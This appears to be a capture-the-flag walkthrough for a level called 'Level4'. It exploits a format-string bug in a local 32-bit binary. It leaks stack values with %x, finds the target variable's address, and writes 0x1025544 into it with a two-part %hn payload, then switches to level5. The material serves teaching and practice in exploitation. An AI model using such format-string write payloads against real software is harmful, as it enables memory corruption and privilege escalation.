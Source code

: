 # Level4 Walkthrough

## Analyzing the Program with GDB
- We can see 3 functions : main, n, p (`watch source.c`)
- The address of m is : `0x8049810`
- m is waiting for 16,928,116 bytes so 0x1025544, but its too long so we'll split it into two values, we cant send those byte.
- 0x1025544 in 32-bit hexadecimal can be split into:
Lower 16 bits (0x5544): Decimal 21828.
Upper 16 bits (0x0102): Decimal 258.

Lets go.

## Running the program
-  Lets see, where is the position of m : 
    ```
    python -c 'print "aaaa" + " %x" * 60' | ./level4
    aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 `61616161` 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 a 0 0
    ```
    `%x * 60` : Every `%x` read and print an hexa value from the stack. We'll read 60 hexa value of the stack, for example: 

- So now, lets try with the return value convert in little endian 
```
python -c 'print "\x10\x98\x04\x08" + " %x" * 60' | ./level4
 b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 `8049810` 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 a 0 0
```

- So at the twelve position and thirteen position, lets send total of 0x1025544. 

- Use of %hn to write only 2 bytes (16 bits) at a time to the appropriate addresses, and we'll target 2 addresses : m (0x8049810) for the lower 16 bits and m + 2 (0x8049812) for the upper 16 bits.

- Now we can send it in two parts: 
```
python -c 'print "\x10\x98\x04\x08\x12\x98\x04\x08" + "%21820d%12$hn" + "%43966d%13$hn"' | ./level4 
```

## Moving to level5

1. **Swith User to level5**:
    Run ```su level5```

2. **Authenticate with the Password**:
    We used the password we found.